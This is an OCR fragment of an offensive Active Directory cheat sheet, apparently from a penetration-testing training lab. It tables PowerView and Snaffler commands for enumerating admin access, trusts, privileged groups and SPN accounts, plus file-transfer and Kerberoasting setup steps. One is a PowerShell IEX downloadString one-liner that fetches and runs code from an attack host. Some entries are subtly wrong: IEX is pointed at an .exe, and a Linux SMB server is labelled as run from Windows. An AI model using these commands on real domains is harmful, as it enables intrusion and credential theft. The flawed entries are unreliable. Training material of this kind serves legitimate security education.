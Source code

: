 | `Find-InterestingDomainShareFile`                            | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host. |

| `Find-LocalAdminAccess`                                      | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host. |

| `Get-DomainTrust`                                            | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |

| `Get-ForestTrust`                                            | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |

| `Get-DomainForeignUser`                                      | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |

| `Get-DomainForeignGroupMember`                               | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |

| `Get-DomainTrustMapping`                                     | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |

| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse`   | PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host. |

| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host. |

| `.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data`          | Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

  

# Transfering Files

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `sudo python3 -m http.server 8001`                           | Starts a python web server for quick hosting of files. Performed from a Linux-basd host. |

| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |

| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host. |

  
  
  

# Kerberoasting

  

| Command                                                      | Description                                                  |

| ------------------------------------------------------------ | ------------------------------------------------------------ |

| `sudo python3 -m pip install .`                              | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |

| `GetUserSPNs.py -h`                                          | Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host. |
